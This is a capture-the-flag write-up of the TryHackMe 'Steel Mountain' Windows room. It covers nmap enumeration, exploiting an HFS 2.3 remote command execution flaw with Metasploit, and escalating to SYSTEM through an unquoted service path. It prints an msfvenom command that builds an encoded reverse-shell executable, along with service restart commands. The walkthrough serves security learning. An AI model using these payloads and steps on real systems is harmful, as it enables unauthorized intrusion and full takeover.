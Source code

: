 ```yaml
---
title: "TryHackMe - Steel Mountain"
author: Nasrallah
description: ""
date: 2022-05-15 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, Windows, metasploit, msfvenom, usp]
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Steel Mountain](https://tryhackme.com/room/steelmountain) from [TryHackMe](https://tryhackme.com). It's a windows machine running a vulnerable webserver, the vulnerability permits us to execute commands remotely, so we used an exploit to get a reverse shell. Once we're in the machine, we find a service with an unquoted service path, we create and exploit for that and use it to escalate our privileges. 

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.36.31
Host is up (0.10s latency).        
Not shown: 989 closed tcp ports (reset) 
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 8.5
|_http-server-header: Microsoft-IIS/8.5 
|_http-title: Site doesn't have a title (text/html).  
| http-methods:                                                                                                                                               
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc              Microsoft Windows RPC                                                                                                      
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=steelmountain
| Not valid before: 2022-05-15T09:46:41
|_Not valid after:  2022-11-14T09:46:41
|_ssl-date: 2022-05-16T10:19:46+00:00; 0s from scanner time.
8080/tcp  open  http               HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.0.2: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-05-16T10:19:42
|_  start_date: 2022-05-16T09:46:29
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: STEELMOUNTAIN, NetBIOS user: <unknown>, NetBIOS MAC: 02:80:6a:01:02:d7 (unknown)
```

We got plenty of open ports, and we can see it's a windows machine.

### Web

Let's navigate to the webserver on port 80.

![](/assets/img/tryhackme/steel/1.png)

Let's view the source code.

![](/assets/img/tryhackme/steel/2.png)

We got the name of the employee of the month, it's Bill Harper.

On the other webserver, we see that it's running `http file server 2.3`, let's see if there is any vulnerabilities in this version.

![](/assets/img/tryhackme/steel/3.png)

There is a remote command execution vulnerability.

## **Foothold**

### Metasploit

To get foothold using `metasploit`, we can use this exploit `exploit/windows/http/rejetto_hfs_exec`.

Launch metasploit by running `msfconsole`, and run `use exploit/windows/http/rejetto_hfs_exec`.

After that, we need to specify the RHOSTS, RPORT and LHOST.

 - RHOSTS: is the target machine's IP.
 - RPORT : is the port of the vulnerable web server (8080).
 - LHOST : is the attacker machine's IP, tun0.

![](/assets/img/tryhackme/steel/4.png)

### Exploit

To get foothold without metasploit, we can use exploits found in [Exploit-DB](https://www.exploit-db.com/) or other places..

In this example, I'll be using this [Exploit](https://github.com/NullByte007/Exploits/blob/master/Rejetto_HFS_2.3.X_RCE/HFS_RCE.py).

![](/assets/img/tryhackme/steel/5.png)


## **Privilege Escalation**

For this part, we're going to use the script suggested in the room; [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1). We'll upload it using meterpreter, and load powershell in order to execute the script.

![](/assets/img/tryhackme/steel/6.png)

Now, we need to load the script with the command `. .\PowerUp.ps1` and the execute it with `Invoke-AllCheck`.

![](/assets/img/tryhackme/steel/7.png)

We can see that the `AdvancedSystemCareService9` service has an unquoted service path, we can restart it, and have write permissions on it's folder.

Let's create an executable that would sends us a shell once it's executed.

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=9999 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe`

Then we need to upload the `Advanced.exe` file to the machine, and put it in the correct folder.

![](/assets/img/tryhackme/steel/8.png)


Next, we need to setup a multi handler listener to catch the reverse shell.

![](/assets/img/tryhackme/steel/9.png)

Now, we need to restart the `AdvancedSystemCareService9` service. To do that, we have to stop it with the command `sc stop AdvancedSystemCareService9` and start it with `sc start AdvancedSystemCareService9`. All that need to happen in a windows command shell, so type `shell` in meterpreter.

![](/assets/img/tryhackme/steel/10.png)

Now if we go to our multi handler listener, we should see a windows shell, and we have system privileges.

![](/assets/img/tryhackme/steel/11.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---